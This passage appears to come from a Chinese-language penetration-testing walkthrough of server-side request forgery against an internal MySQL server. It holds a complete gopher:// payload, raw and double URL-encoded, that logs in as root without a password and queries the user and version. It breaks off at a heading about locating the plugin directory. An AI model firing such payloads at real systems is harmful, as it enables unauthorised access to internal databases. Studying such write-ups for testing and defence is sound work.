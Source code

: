 转换为原始的数据流，再转换为 goher 协议如下：

```
gopher://172.73.23.100:3306/_%a1%00%00%01%85%a2%3f%00%00%00%00%01%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%64%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%03%35%30%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%36%2e%35%31%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%18%00%00%00%03%73%65%6c%65%63%74%20%75%73%65%72%28%29%2c%76%65%72%73%69%6f%6e%28%29%01%00%00%00%01
```

URL 二次编码后如下：

```
gopher://172.73.23.100:3306/_%25a1%2500%2500%2501%2585%25a2%253f%2500%2500%2500%2500%2501%2508%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2564%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2503%2535%2530%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2536%252e%2535%2531%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%2521%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2540%2540%2576%2565%2572%2573%2569%256f%256e%255f%2563%256f%256d%256d%2565%256e%2574%2520%256c%2569%256d%2569%2574%2520%2531%2518%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2575%2573%2565%2572%2528%2529%252c%2576%2565%2572%2573%2569%256f%256e%2528%2529%2501%2500%2500%2500%2501
```

成功拿到了当前的用户和版本信息：

![image-20210810184353064](images/image-20210810184353064.png) 

证明内网的 MySQL 是没有密码的。 

## 寻找 MySQL 插件路径

同理寻找 MySQL 的插件目录：
